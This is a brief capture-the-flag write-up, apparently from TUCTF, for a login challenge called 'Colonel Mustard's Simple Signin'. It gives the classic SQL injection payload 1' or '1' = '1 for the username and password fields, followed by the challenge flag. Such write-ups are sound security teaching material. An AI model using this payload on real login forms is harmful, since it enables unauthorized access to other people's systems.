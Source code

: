 # Colonel Mustard's <br> Simple Signin

__PROBLEM__

We know Col Mustard is up to something--can you find a way in to tell us what?

http://13.59.239.132/

__SOLUTION__

Again the login form, I would say now we should try the SQL injection.

Starting with a simple:

```

$password = 1' or '1' = '1

$username = 1' or '1' = '1

```

FLAG - `TUCTF{1_4ccu53_c0l0n3l_mu574rd_w17h_7h3_r0p3_1n_7h3_l061n}`
